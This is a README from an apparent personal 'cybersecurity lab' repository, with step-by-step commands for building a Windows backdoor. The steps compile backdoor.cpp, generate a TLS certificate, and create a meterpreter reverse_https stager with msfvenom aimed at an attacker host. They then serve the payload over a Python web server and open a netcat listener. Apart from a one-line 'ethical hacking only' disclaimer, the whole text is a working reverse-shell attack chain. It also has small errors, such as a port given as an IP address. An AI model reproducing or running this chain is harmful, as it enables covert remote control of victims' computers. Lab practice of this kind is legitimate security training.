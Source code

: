 # cybersecurity
Cybersecurity Lab Experiences by Fabio Felgueiras

Use this for ethical hacking only 

1- Download

    git clone https://github.com/Blive77/cybersecurity/
    
2- Compile

    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
    
    
3- Create custom SSL/TLS certificate 

    openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
    cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
    rm -f www.example.com.key  www.example.com.crt
    
      
    
4- Create the Payload with msfvenom in Kali linux
    in my case:
    Host IP= 192.168.235.132
    Host Port= 192.168.235.132
    Path To cert file= /home/kali/cybersecurity/www.example.com.pem
      
    msfvenom -p windows/x64/meterpreter/reverse_https lhost=(Host IP) lport=(Host Port) HandlerSSLCert=(Path To cert file) StagerVerifySSLCert=true -f raw > load.bin
    
   
    
5- Setup the http webserver for Payload download (while in cybersecurity folder)

    python -m http.server
    
5- Open the listner for the backdoor to connect to (using netcat)

    nc -lvvnp
